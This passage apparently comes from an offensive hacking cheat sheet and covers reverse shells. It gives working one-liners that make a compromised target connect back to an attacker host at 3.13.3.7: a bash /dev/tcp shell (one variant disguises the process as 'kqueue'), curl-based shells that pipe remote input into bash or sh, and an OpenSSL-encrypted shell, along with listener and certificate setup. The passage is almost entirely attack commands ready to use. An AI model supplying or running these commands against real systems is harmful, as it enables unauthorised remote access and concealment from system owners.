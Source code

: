 On the remote system, this command will connect back to your system (IP = 3.13.3.7, Port 1524) and give you a shell prompt:
```sh
# If the current shell is Bash already:
(bash -i &>/dev/tcp/3.13.3.7/1524 0>&1) &
# If the current shell is NOT Bash then we need:
bash -c '(exec bash -i &>/dev/tcp/3.13.3.7/1524 0>&1) &'
# or hide the bash process as 'kqueue'
bash -c '(exec -a kqueue bash -i &>/dev/tcp/3.13.3.7/1524 0>&1) &'
```

<a id="curlshell"></a>
**5.i.c. Reverse shell with cURL (encrypted)**

Use [curlshell](https://github.com/SkyperTHC/curlshell). This also works through proxies and when direct TCP connection to the outside world is prohibited:
```sh
# On YOUR workstation
# Generate SSL keys:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
# Start your listening server:
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://3.13.3.7:8080 | bash
```

<a id="curltelnet"></a>
**5.i.d Reverse shell with cURL (cleartext)**

Start ncat to listen for multiple connections:
```sh
ncat -kltv 1524
```
```sh
# On the target:
C="curl -Ns telnet://3.13.3.7:1524"; $C </dev/null 2>&1 | sh 2>&1 | $C >/dev/null
```

<a id="sslshell"></a>
**5.i.e. Reverse shell with OpenSSL (encrypted)**

```sh
# On YOUR workstation:
# Generate SSL keys:
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
# Start your listening server:
openssl s_server -port 1524 -cert cert.pem -key key.pem
# Or pwncat:
# pwncat -lp 1524 --ssl
```

```sh
# On the target, start an openssl reverse shell as background process:
({ openssl s_client -connect 3.13.3.7:1524 -quiet </dev/fd/3 3>&- 2>/dev/null | sh 2>&3 >&3 3>&- ; } 3>&1 | : & )
```
